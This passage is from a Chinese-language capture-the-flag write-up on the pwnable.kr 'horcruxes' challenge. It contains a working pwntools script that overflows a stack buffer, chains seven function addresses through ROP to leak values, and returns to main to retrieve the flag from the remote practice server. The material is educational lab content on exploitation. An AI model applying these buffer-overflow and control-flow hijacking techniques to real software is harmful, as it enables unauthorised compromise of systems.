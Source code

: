 利用这一点，只用我们依次覆写7个函数的地址，就能自动读取到``EXP``。

那么现在的问题就变成了，如何返回到``ropme()``函数。前面我们已经得知了，因为``ropme()``内存地址特殊，无法跳转，但是``ropme()``是在``main()``函数中被调用过的，那么我们可以跳转到``main()``函数中的这一行。

# 脚本

```python
# coding:utf-8
# 不明原因需要多运行几次直到flag出来
from pwn import *
context.log_level = 'debug'

payload = 'a'*(0x74+4) # s到eip上距离
# ABCDEFG调用地址
payload += p32(0x809FE4B)+p32(0x809FE6A)+p32(0x809FE89)+p32(0x809FEA8)+p32(0x809FEC7)+p32(0x809FEE6)+p32(0x809FF05)
# ropme调用地址
payload += p32(0x0809FFFC)

p = remote('pwnable.kr',9032)
p.recvuntil('Select Menu:')
p.sendline('1')
p.recvuntil('earned? : ')
p.sendline(payload)

exp = 0
for _ in range(7):
    p.recvuntil('(EXP +')
    exp += int(p.recvline().replace(')',"").strip())
print exp

p.recvuntil('Select Menu:')
p.sendline('1')
p.recvuntil('earned? : ')
p.sendline(str(exp))
p.recv()
```

# 总结

* ROP通常利用栈溢出，操纵call、ret、jmp指令，实现程序控制流的劫持，跳转到任意一个位置。
* ``gets()``结束输入的标记是``0xa(回车)``，并将其替换为``\0``。



# 参考

[muirelle](<https://muirelle.com/2018/12/30/Pwnable-kr/>)

[pwnable.kr horcruxes ROP利用](<https://bbs.pediy.com/thread-249324.htm>)